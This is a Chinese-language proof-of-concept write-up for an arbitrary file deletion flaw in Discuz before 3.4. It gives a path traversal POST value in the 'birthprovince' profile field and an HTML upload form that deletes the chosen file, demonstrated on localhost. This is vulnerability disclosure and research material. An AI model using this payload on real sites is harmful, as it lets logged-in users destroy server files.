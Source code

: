 # Discuz_＜3.4_birthprovince_前台任意文件删除

## Affected Version

Discuz < 3.4 版本

需要会员身份登陆站点。

下载地址： 链接: https://pan.baidu.com/s/1hsOoSte 密码: nvjj


## PoC


测试：

1. 为了不破坏原有程序，在根目录下新建 1.txt 作为演示。

![1](Discuz_＜3.4_birthprovince_前台任意文件删除/1.PNG)

2. 登陆前台，访问 http://localhost/Discuz/Discuz_X3.2_TC_BIG5/home.php?mod=spacecp&ac=profile&op=base

先发起一个POST请求 

    birthprovince=../../../1.txt&profilesubmit=1&formhash=18a19dce
    // formhash 需要右键查看源代码得到

成功后，个人信息已经被修改成如下:

![changed](Discuz_＜3.4_birthprovince_前台任意文件删除/changed.PNG)

3. 最后，本地提交POST表单删除文件 1.txt

表单内容：

    <form action="http://localhost/Discuz/Discuz_X3.2_TC_BIG5/home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
    <input type="file" name="birthprovince" id="file" />
    <input type="text" name="formhash" value="18a19dce"/></p>
    <input type="text" name="profilesubmit" value="1"/></p>
    <input type="submit" value="Submit" />
    </from>

随便上传一个图片提交会导致删除 birthprovince 设置的文件名称，在这里是 1.txt。

## References

1. http://www.freebuf.com/vuls/149904.html
2. http://www.freebuf.com/articles/system/149810.html
